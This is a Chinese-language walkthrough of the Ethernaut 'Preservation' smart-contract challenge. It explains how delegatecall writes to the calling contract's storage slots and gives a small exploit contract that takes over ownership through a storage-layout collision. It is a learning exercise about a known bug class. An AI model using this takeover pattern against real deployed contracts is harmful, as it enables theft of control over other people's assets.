



## Level_16.Preservation

要求：

> 成为合约的owner；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

### 分析

该合约使用` LibraryContract `存储了两个不同的时间，都是使用` delegatecall `执行的，仅仅借用了` LibraryContract `中的` setTime `函数；

```solidity
// delegatecall
A ----------call----------> B ----------delegatecall----------> C
                     msg.sender = A                  ****msg.sender = A****
                     msg.data = A给的                     msg.data = A给的
                     变量的变化 = 仅C中的变量变化            变量的变化 = 仅B中的变量变化
```

在Remix中部署demo调用一遍发现和合约想要实现的效果不太一样：


执行` setFirstTime `时，` storedTime `并没有变化，变化的只有` timeZone1Library `；



同样的，执行` setSecondTime `后，变化的只有` timeZone1Library `；



发现` LibraryContract `中只有一个状态变量，会不会` delegatecall `改变状态变量时，只会根据"工具合约"（也就是上面的C合约）的` slot `布局来更改？

写个demo看一下：



所以，我们只需写一个合约，还原目标合约的布局，然后将` owner `更改为自己的地址即可；


### 攻击

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp{
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```

首先将` timeZone1Library `改为我们的exp合约地址，然后再调用其即可；


